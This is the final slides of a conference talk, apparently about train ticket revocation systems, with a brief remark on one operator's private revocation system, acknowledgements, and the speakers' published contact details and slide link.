- mo.pla decided not to play along
- They have established a private revocation system
- Requiring more integration work from everyone checking their tickets
Acknowledgements
Thanks to everyone who helped along the way:
- Chris (DTVG)
- Everyone at the DB, particularly Clemens and Manuel
- Kurt (UIC/Flemish Parliament)
- Anja Jenšterle
- Flüpke
Question time!
Q
Email: qmisell@mpi-inf.mpg.de
Fedi: @q@glauca.space
maya
Email: maya@catgirl.global
Fedi: @maya@catgirl.global
Slides at magicalcodewit.ch/39c3-slides/